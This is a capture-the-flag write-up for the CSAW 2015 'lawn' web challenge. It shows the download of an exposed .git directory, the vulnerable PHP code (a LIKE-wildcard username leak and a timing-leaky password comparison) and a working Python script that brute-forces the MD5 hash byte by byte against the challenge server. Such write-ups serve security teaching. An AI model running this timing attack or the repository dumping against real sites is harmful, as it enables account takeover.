 ### Solved by Swappage

This 200 points challenge was a web application running a nicely useless javascript for "growing lawn", and was providing all the typical features available in a standard web application, including registration and login.

The objective of this challenge was to login as admin.

## Clone all the things ##

By looking at the index source code we could notice that the version number, present in the bottom corner of the page, was calculated based on the git repository hash.

![](/images/2015/csaw/lawn/version.png)

```javascript
<script>
    function init(){
        document.getElementById('login_form').onsubmit = function() {
            var pass_field = document.getElementById('password');
            pass_field.value = CryptoJS.MD5(pass_field.value).toString(CryptoJS.enc.Hex);
    };
    $.ajax('.git/refs/heads/master').done(function(version){$('#version').html('Version: ' +  version.substring (0,6))});
    initGrass();
}
</script>
```

Since the .git directory is available in the webroot, we can crawl it and download the entire repository, to obtain the source code and spot bugs.
To make my life easier i used DVCS-Pillage: https://github.com/evilpacket/DVCS-Pillage
to automate the whole process, and at the end i had all the website sources available to me, except.. of course for the flag.

    -rw-r--r--  1 root root  109 Sep 19 00:46 ___HINT___
    -rw-r--r--  1 root root 2406 Sep 19 00:46 index.html
    -rw-r--r--  1 root root 1410 Sep 19 00:46 jobs.html
    drwxr-xr-x  2 root root 4096 Sep 19 14:50 js
    -rw-r--r--  1 root root  918 Sep 19 00:46 premium.php
    -rw-r--r--  1 root root 2937 Sep 19 00:46 sign_up.php
    -rw-r--r--  1 root root   78 Sep 19 01:51 test.php
    -rw-r--r--  1 root root  780 Sep 19 00:46 validate_pass.php


## The bugs ##
In the php code there were two bugs:

The first was in the registration page *sign_up.php*

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST'){
    require_once 'db.php';
    $link = mysql_connect($DB_HOST, $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
    mysql_select_db('users') or die("Mysql error");
    $user = mysql_real_escape_string($_POST['username']);
    // check to see if the username is available
    $query = "SELECT username FROM users WHERE username LIKE '$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    if ($line == NULL){
        // Signing up for premium is still in development
        echo '<h2 style="margin: 60px;">Lawn Care Simulator 2015 is currently in a private beta. Please check back later</h2>';
    }
    else {
        echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";
    }
}
else {
?>
```
As it's possible to notice the query used to verify if a user already existed, used a *LIKE* statement, this means that by submitting a username value with the character %, we could disclose the already registered users; of course, since the registration was still closed, the only user we were expecting to find as already registered was the admin username, which happened to be ~~FLAG~~.

![](/images/2015/csaw/lawn/user_exists.png)

The second one was in the way the login process was handled by the validate_pass.php

```php
<?
function validate($user, $pass) {
    require_once 'db.php';
    $link = mysql_connect($DB_HOST, $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
    mysql_select_db('users') or die("Mysql error");
    $user = mysql_real_escape_string($user);
    $query = "SELECT hash FROM users WHERE username='$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    $hash = $line['hash'];

    if (strlen($pass) != strlen($hash))
        return False;

    $index = 0;
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
    return true;
}
?>
```

What the script implements as a *protection against brute force attacks* is faulty, and leave the script open to a byte by byte bruteforce attack on the hash, which wasn't calculated by the server, but directly by the javascript on the client side.

By analyzing the timings of the server response it was possible to guess the characters that were composing the md5 hash for the ~~FLAG~~ user.

I built this horrible python script to do the job and retrieve the flag.

```python
#!/usr/bin/python

import datetime
import time
import requests
from itertools import combinations
import itertools

letters = ['a', 'b', 'c', 'd', 'e', 'f', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9']

hash = ""
padding = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
delay = 300

current_milli_time = lambda: int(round(time.time() * 1000))

while 1:
    for c in itertools.combinations_with_replacement(letters, 1):
#       time.sleep(0.5)
        start = current_milli_time()

        stringa = (''.join(c))
        print "[*] bruteforcing MD5 with: " + hash + stringa + padding
        r = requests.post("http://54.175.3.248:8089/premium.php", data={'username': '~~FLAG~~', 'password': hash + stringa + padding})
        #print(r.status_code, r.reason)

        stop = current_milli_time()
        elapsed = stop - start
        print elapsed
        if elapsed > delay:
            start = datetime.datetime.now()
            r = requests.post("http://54.175.3.248:8089/premium.php", data={'username': '~~FLAG~~', 'password': hash + stringa + padding})
            stop = datetime.datetime.now()
            if elapsed > delay:
                print "[*] character found: " + stringa
                hash += stringa
                padding = padding[:-1]
                delay = delay + 300
                print padding
                print hash
                break

```

